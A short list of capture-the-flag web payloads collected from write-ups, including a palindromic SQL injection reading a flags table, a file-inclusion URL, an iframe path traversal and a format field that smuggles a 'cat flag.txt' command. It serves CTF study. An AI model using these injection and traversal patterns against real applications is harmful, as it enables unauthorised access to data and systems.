 ### Some payloads from writeups :

- OEPS --> The one line encyclopedia of palindromic sentences :   
```js
%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'%
```

- File inclusion
```js
https://galleria.chal.nbctf.com/gallery?file=/tmp/flag.txt
```

- Get flag
```js
await fetch("flag.txt").then(response=>response.text())
```

- Leak Directory
```js
<iframe src="../../flag.txt" width="1000px" height="1000px"></iframe>
```

- Format specifier
```js
format=""%Y-%m-%d;%20cat%20flag.txt""
```
